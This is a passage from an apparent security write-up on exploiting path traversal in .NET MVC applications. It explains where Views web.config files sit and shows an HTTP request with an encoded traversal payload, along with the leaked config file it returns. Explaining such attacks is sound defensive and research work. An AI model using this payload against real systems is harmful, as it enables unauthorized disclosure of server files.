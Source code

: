 [![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgbnHsuSBNrBZgsHTGBopoPo6jxngDgQe8dbUazsqAPZctQnX_JWnVXKGWQDjgNzAIL5Af2-cDku664ZyekH18Qd_TIDCtcWDCSqw_Kt5e62_QmH69qe4qTrhqsXD4ujL8FJb8obGuH3yJQ/s640/2.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgbnHsuSBNrBZgsHTGBopoPo6jxngDgQe8dbUazsqAPZctQnX_JWnVXKGWQDjgNzAIL5Af2-cDku664ZyekH18Qd_TIDCtcWDCSqw_Kt5e62_QmH69qe4qTrhqsXD4ujL8FJb8obGuH3yJQ/s1600/2.png)  

  
In addition, .Net MVC applications are structured to define other web.config files, having the aim to include any declaration for specific namespaces for each set of viewpages, relieving developers to declare “@using” namespaces in every file.  
As shown in the picture, representing a VisualStudio MVC/Razor project for a simple application, the main Views folder includes a web.config file:

-   /Views/Web.config

**Note:** the /Views folder is part of the Razor View Engine configuration.  
  

If the application uses Areas, consider that each Area with graphical interface capabilities could have a dedicated ./Views folder containing a Web.config file for further specific namespaces.

-   <area-name-1>/Views/web.config
-   <area-name-2>/Views/web.config

  
Any /Views and <area-name>/Views directory may contain a web.config file, that can be downloaded via the former Path Traversal.  
  
Web.config files may refer to other classes via the "type=" attribute, as well as new namespaces.  
  

Request:

GET /download\_page?id=**..%2f..%2fViews/web.config** HTTP/1.1

Host: example-mvc-application.minded

\[...\]

  

Response:  
HTTP/1.1 200 OK

\[...\]

<?xml version="1.0"?>  
<configuration>  
  <configSections>

    <sectionGroup name="system.web.webPages.razor" **type**\="System.Web.WebPages.Razor.Configuration.RazorWebSectionGroup, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral">  
    <section name="host" **type**\="System.Web.WebPages.Razor.Configuration.HostSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral" requirePermission="false" />  
    <section name="pages" **type**\="System.Web.WebPages.Razor.Configuration.RazorPagesSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral" requirePermission="false" />  
    </sectionGroup>

  </configSections>  
<system.web.webPages.razor><host factoryType="System.Web.Mvc.MvcWebRazorHostFactory, System.Web.Mvc, Version=5.2.3.0, Culture=neutral" /><pages pageBaseType="System.Web.Mvc.WebViewPage">  
  <namespaces>  
    <add **namespace**\="System.Web.Mvc" />  
    <add **namespace**\="System.Web.Mvc.Ajax" />  
    <add **namespace**\="System.Web.Mvc.Html" />  
    <add **namespace**\="System.Web.Optimization"/>  
    <add **namespace**\="System.Web.Routing" />  
    **_<add namespace="WebApplication1" />_**  
  </namespaces>  
</pages>  
</system.web.webPages.razor>  
<appSettings><add key="webpages:Enabled" value="false" /></appSettings>  